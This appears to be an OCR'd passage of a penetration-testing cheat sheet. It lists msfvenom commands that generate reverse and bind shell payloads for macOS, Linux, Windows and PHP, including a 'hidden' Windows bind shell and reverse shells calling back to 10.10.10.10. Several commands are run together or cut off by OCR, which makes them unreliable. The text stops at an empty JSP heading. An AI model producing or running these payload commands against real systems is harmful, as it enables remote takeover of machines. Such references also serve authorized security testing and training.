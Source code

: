 # **macOS Reverse Shells**

```
$msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f macho > shell.macho# Reverse TCP Shellcode
$msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f < platform
```

# **Meterpreter Bind Shells**

# **Linux Bind Shell**

```
# x86 (multi stage)
$msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=12.12.12.12 LPORT=4545 -f elf > shell.elf# x64 (single stage)
$msfvenom -p linux/x64/shell_bind_tcp RHOST=12.12.12.12 LPORT=4545 -f elf > shell.elf
```

# **Windows Bind Shell**

```
$msfvenom -p windows/meterpreter/bind_tcp RHOST=12.12.12.12 LPORT=4545 -f exe > bind.exe# Hidden Bind TCP Payload
$msfvenom -p windows/shell_hidden_bind_tcp RHOST=12.12.12.12 LPORT=4545 -f exe > hidden_shell.exe
```

# **macOS Bind Shell**

```
$msfvenom -p osx/x86/shell_bind_tcp RHOST=12.12.12.12 LPORT=4545 -f macho > shell.macho

```

# **Meterpreter Web Payloads**

# **PHP Meterpreter Reverse Shells**

```
$msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=4545 -f raw > shell.php# PHP Meterpreter Reverse TCP
$msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f raw > shell.php$ cat shell.php | pbcopy && echo ‘<?php ' | tr -d '\n'> shell.php && pbpaste >> shell.php
```

# **Java JSP Meterpreter Reverse TCP**
